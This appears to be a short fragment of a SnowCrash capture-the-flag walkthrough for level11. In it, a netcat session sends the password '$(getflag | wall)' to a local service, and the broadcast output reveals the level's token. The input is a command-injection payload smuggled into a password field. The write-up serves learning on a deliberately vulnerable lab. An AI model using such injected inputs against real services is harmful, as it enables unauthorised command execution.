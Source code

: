 level11@SnowCrash:~$ nc localhost 5151
Password: $(getflag | wall)
                                                                               
Broadcast Message from flag11@Snow                                             
        (somewhere) at 23:44 ...                                               
                                                                               
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s                      
                                                                               
Erf nope..
